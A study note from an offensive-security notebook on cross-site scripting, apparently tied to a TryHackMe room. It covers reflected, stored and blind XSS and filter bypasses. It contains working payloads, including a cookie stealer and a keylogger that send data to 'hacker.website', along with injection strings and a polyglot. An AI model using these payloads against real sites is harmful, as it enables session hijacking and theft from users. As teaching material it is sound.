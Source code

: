 # XSS and Javascript vulnerabilities

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

<br>

You will most likely use these references:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) (42.5k ⭐)
* [OWASP Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (22k ⭐)
* [OWASP DOM XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) (22k ⭐)

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```js
<script>fetch('https://hacker.website/steal?cookie=' + btoa(document.cookie));</script>
```

**A simple keylogger**: send each key pressed is sent to the hacker website. The script is using `btoa()` to encode in base64 the values.

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.website/keylogger?key=' + btoa(e.key) )}</script>
```

<br>

**Exploit the client privileges**: when a client is logged, then can do things on the website. Sometimes, the website is using an API, and the malicious code may use the client identify to do API calls, such as resetting the password, or stuff like that.

> In CTF, or to test that in local, you can create a server with ncat `nc -nlvp port`, and use `fetch('http://ip:port?x=...')`.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

...

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sl">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sr">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

Developers may not protect everything. For instance a select list in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country, and as the developer used a select list, it may not be filtered.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use HTML attributes.
</div><div>

**Replace failures**

If a developer used a "replace" function, then they there are tricks such as the one below. If there is a filter removing "script", then after removal of "&lt;script&gt;", we will have "s" concatenated with "cript", and we successfully bypassed the filter.

```
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

There are also various tricks using ASCII/... to bypass filters.
</div></div>

<hr class="sl">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>